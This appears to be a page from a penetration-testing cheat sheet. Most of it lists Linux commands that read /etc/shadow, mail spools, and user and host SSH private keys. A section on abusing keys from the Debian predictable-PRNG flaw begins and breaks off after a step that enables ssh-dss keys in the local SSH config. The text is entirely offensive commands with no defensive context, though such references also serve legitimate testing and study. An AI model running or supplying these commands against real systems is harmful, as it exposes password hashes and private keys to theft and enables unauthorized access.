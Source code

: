 #### `cat /etc/shadow`&#x20;

#### `ls -alh /var/mail/`

### <mark style="color:orange;">ssh key info</mark>

#### `cat ~/.ssh/authorized_keys`

#### &#x20;`cat ~/.ssh/identity.pub`&#x20;

#### `cat ~/.ssh/identity`&#x20;

#### `cat ~/.ssh/id_rsa.pub`

#### &#x20;`cat ~/.ssh/id_rsa`&#x20;

#### `cat ~/.ssh/id_dsa.pub`&#x20;

#### `cat ~/.ssh/id_dsa`&#x20;

#### `cat /etc/ssh/ssh_config`

#### &#x20;`cat /etc/ssh/sshd_config`&#x20;

#### `cat /etc/ssh/ssh_host_dsa_key.pub`

#### &#x20;`cat /etc/ssh/ssh_host_dsa_key`&#x20;

#### `cat /etc/ssh/ssh_host_rsa_key.pub`&#x20;

#### `cat /etc/ssh/ssh_host_rsa_key`&#x20;

#### `cat /etc/ssh/ssh_host_key.pub`&#x20;

#### `cat /etc/ssh/ssh_host_key`

SSH Key Predictable PRNG (Authorized\_Keys) Process\\

#### use an obtained authorized\_keys file on a host system. Needed : SSH-DSS String from authorized\_keys file 1. Get the authorized\_keys file. An example of this file would look like so:

#### `ssh-dss AAAA487rt384ufrgh432087fhy02nv84u7fg839247fg8743gf087b3849yb98304yb9v834ybf ... (snipped) ...`

#### 2. Since this is an ssh-dss key, we need to add that to our local copy of /etc/ssh/ssh\_config and /etc/ssh/sshd\_config:

#### `echo "PubkeyAcceptedKeyTypes=+ssh-dss" >> /etc/ssh/ssh_config`&#x20;
